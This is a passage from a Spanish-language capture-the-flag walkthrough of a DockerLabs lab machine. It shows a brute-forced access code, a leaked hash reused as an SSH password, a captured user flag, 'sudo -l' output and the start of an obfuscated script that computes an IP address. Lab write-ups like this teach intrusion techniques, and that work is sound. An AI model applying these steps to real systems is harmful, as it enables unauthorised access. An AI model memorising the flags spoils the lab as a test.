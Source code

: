 ```
Intento fallido. Intentos restantes: 6
Intentando código: 0081
¡Código correcto encontrado! El código es 0081
```

Vemos que despues de un rato encontramos el codigo que sera el `0081`, el cual si lo introducimos veremos que entramos en una pagina la cual nos muestra una clave secreta que tendremos que guardarnos y tendremos `60` segundos para poder guardarnosla.

```
bbb2c5e63d2ef893106fdd0d797aa97a
```

Vemos que puede ser una posible contraseña para algun usuario del sistema, si enumeramos un poco mas en la pagina llamada `pageadmincodelogin.html` vemos que hay un nombre como comentario:

```html
<!--dimer-->
```

## Escalate user dimer

Si intentamos `crackear` la contraseña de `MD5`, veremos que no podremos, pero si la utilizamos de normal con el propio `hash` veremos que pasa:

```shell
ssh dimer@<IP>
```

Metemos como contraseña `bbb2c5e63d2ef893106fdd0d797aa97a` y veremos que estamos dentro, por lo que leeremos la flag del usuario:

> user.txt

```
c92b22766f900e5bdab6700ab88dabb8
```

## Escalate user bilter

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for dimer on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User dimer may run the following commands on dockerlabs:
    (bilter : bilter) NOPASSWD: /opt/life.sh
```

Vemos que podemos ejecutar `/opt/life.sh` como el usuario `bilter`, por lo que haremos lo siguiente:

Si vemos que tiene por dentro el script, veremos esto:

```bash
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

```